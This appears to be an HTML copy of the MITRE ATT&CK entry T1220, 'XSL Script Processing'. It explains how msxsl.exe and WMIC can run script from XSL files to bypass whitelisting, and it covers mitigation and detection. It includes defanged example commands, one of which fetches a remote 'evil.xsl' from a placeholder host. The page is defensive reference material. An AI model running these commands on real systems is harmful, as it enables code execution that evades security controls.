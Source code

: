 <div class="container-fluid">
 <h1>
  XSL Script Processing
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages.
    <span class="scite-citeref-number" data-reference="Microsoft XSLT Script Mar 2017" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script" target="_blank">
       [1]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to
    <a href="https://attack.mitre.org/techniques/T1127">
     Trusted Developer Utilities
    </a>
    , the Microsoft common line transformation utility binary (msxsl.exe)
    <span class="scite-citeref-number" data-reference="Microsoft msxsl.exe" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://www.microsoft.com/download/details.aspx?id=21714" target="_blank">
       [2]
      </a>
     </sup>
    </span>
    can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files.
    <span class="scite-citeref-number" data-reference="Penetration Testing Lab MSXSL July 2017" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/" target="_blank">
       [3]
      </a>
     </sup>
    </span>
    Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files.
    <span class="scite-citeref-number" data-reference="Reaqta MSXSL Spearphishing MAR 2018" id="scite-ref-4-a">
     <sup>
      <a aria-describedby="qtip-3" data-hasqtip="3" href="https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/" target="_blank">
       [4]
      </a>
     </sup>
    </span>
   </p>
   <p>
    Command-line example:
    <span class="scite-citeref-number" data-reference="Penetration Testing Lab MSXSL July 2017" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/" target="_blank">
       [3]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     <code>
      msxsl.exe customers[.]xml script[.]xsl
     </code>
    </li>
   </ul>
   <p>
    Another variation of this technique, dubbed "Squiblytwo", involves using
    <a href="https://attack.mitre.org/techniques/T1047">
     Windows Management Instrumentation
    </a>
    to invoke JScript or VBScript within an XSL file.
    <span class="scite-citeref-number" data-reference="subTee WMIC XSL APR 2018" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" target="_blank">
       [5]
      </a>
     </sup>
    </span>
    This technique can also execute local/remote scripts and, similar to its
    <a href="https://attack.mitre.org/techniques/T1117">
     Regsvr32
    </a>
    / "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool.
   </p>
   <p>
    Command-line examples:
    <span class="scite-citeref-number" data-reference="subTee WMIC XSL APR 2018" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" target="_blank">
       [5]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     Local File:
     <code>
      wmic process list /FORMAT:evil[.]xsl
     </code>
    </li>
    <li>
     Remote File:
     <code>
      wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"
     </code>
    </li>
   </ul>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1220
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters, Process use of network, DLL monitoring
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Anti-virus, Application whitelisting, Digital Certificate Validation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Casey Smith; Praetorian
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 1.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0080">
      Cobalt Group
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0080">
       Cobalt Group
      </a>
      used msxsl.exe to bypass AppLocker and to invoke Jscript code from an XSL file.
      <span class="scite-citeref-number" data-reference="Talos Cobalt Group July 2018" id="scite-ref-6-a" onclick="scrollToRef('scite-6')">
       <sup>
        <a aria-describedby="qtip-5" data-hasqtip="5" href="https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html" target="_blank">
         [6]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  <a href="https://attack.mitre.org/techniques/T1047">
   Windows Management Instrumentation
  </a>
  and/or msxsl.exe may or may not be used within a given environment. Disabling WMI may cause system instability and should be evaluated to assess the impact to a network. If msxsl.exe is unnecessary, then block its execution to prevent abuse by adversaries.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Use process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. Compare recent invocations of these utilities with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity (ex: URL command line arguments, creation of external network connections, loading of DLLs associated with scripting).
  <span class="scite-citeref-number" data-reference="subTee WMIC XSL APR 2018" id="scite-ref-5-a">
   <sup>
    <a aria-describedby="qtip-4" data-hasqtip="4" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" target="_blank">
     [5]
    </a>
   </sup>
  </span>
  <span class="scite-citeref-number" data-reference="Twitter SquiblyTwo Detection APR 2018" id="scite-ref-7-a">
   <sup>
    <a aria-describedby="qtip-6" data-hasqtip="6" href="https://twitter.com/dez_/status/986614411711442944" target="_blank">
     [7]
    </a>
   </sup>
  </span>
  Command arguments used before and after the script invocation may also be useful in determining the origin and purpose of the payload being loaded.
 </p>
 <p>
  The presence of msxsl.exe or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script" name="scite-1" rel="nofollow" target="_blank">
        Wenzel, M. et al. (2017, March 30). XSLT Stylesheet Scripting Using
        <msxsl:script>
         . Retrieved July 3, 2018.
        </msxsl:script>
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://www.microsoft.com/download/details.aspx?id=21714" name="scite-2" rel="nofollow" target="_blank">
        Microsoft. (n.d.). Command Line Transformation Utility (msxsl.exe). Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/" name="scite-3" rel="nofollow" target="_blank">
        netbiosX. (2017, July 6). AppLocker Bypass – MSXSL. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-4">
      <span class="scite-citation-text">
       <a class="external text" href="https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/" name="scite-4" rel="nofollow" target="_blank">
        Admin. (2018, March 2). Spear-phishing campaign leveraging on MSXSL. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="5.5">
    <li>
     <span class="scite-citation" id="scite-5">
      <span class="scite-citation-text">
       <a class="external text" href="https://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" name="scite-5" rel="nofollow" target="_blank">
        Smith, C. (2018, April 17). WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-6">
      <span class="scite-citation-text">
       <a class="external text" href="https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html" name="scite-6" rel="nofollow" target="_blank">
        Svajcer, V. (2018, July 31). Multiple Cobalt Personality Disorder. Retrieved September 5, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-7">
      <span class="scite-citation-text">
       <a class="external text" href="https://twitter.com/dez_/status/986614411711442944" name="scite-7" rel="nofollow" target="_blank">
        Desimone, J. (2018, April 18). Status Update. Retrieved July 3, 2018.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>
